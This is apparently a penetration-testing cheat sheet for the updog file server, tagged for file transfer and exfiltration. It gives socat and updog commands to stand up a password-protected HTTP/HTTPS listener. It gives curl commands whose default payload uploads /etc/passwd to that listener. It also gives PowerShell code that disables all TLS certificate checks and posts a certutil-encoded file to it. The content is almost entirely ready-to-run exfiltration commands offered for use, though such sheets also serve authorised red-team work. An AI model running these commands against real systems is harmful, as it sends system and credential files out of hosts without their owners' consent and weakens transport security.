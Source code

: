 # updog

% file transfer, exfiltration, injecton

#plateform/linux #target/serve  #cat/ATTACK/LISTEN-SERVE 


## updog - start http server
#plateform/linux #target/serve  #cat/ATTACK/LISTEN-SERVE 
```bash
sudo socat TCP-LISTEN:<http_port|80>,fork TCP:localhost:<http_user_port|9090> & updog -d $(pwd) -p <http_user_port|9090> --password <updog_password>
```


## updog - start https server
#plateform/linux #target/serve  #cat/ATTACK/LISTEN-SERVE 
```bash
sudo socat TCP-LISTEN:<http_port|80>,fork TCP:localhost:<http_user_port|9090> & updog -d $(pwd) -p <http_user_port|9090> --password <updog_password> [--ssl]
```

## updog - curl upload to (http)
For secured by password use http://:<password>@<ip>:<port>/upload
```bash
curl -XPOST -F "file=@<file|/etc/passwd>;filename=<filename|passwd>" -F "path=<path|.>" http://:<updog_password>@<local_ip>:<port|80>/upload
```

## updog - curl upload to (https)
For secured by password use https://:<password>@<ip>:<port>/upload
```bash
curl -XPOST -k -F "file=@<file|/etc/passwd>;filename=<filename|passwd>" -F "path=<updog-path|.>" https://:<updog_password>@<local_ip>:<port|80>/upload
```

## updog - powershell trust certificat
```powershell
 add-type @"
    using System.Net;
    using System.Security.Cryptography.X509Certificates;
    public class TrustAllCertsPolicy : ICertificatePolicy {
        public bool CheckValidationResult(
            ServicePoint srvPoint, X509Certificate certificate,
            WebRequest request, int certificateProblem) {
            return true;
        }
    }
"@
[System.Net.ServicePointManager]::CertificatePolicy = New-Object TrustAllCertsPolicy
```

## updog - powershell upload (http)
For secured by password use http://:<password>@<ip>:<port>/upload
certutil -encode <infile> <outfile>
```bash
$f = Get-item <b64-file>
$body = @{
    file = $f
    path = '<path>'
}
Invoke-RestMethod -Method Post -Uri https://:<updog_password>@<local_ip>:<port|80>/upload  -Form $body -Verbose -MaximumRedirection 0
```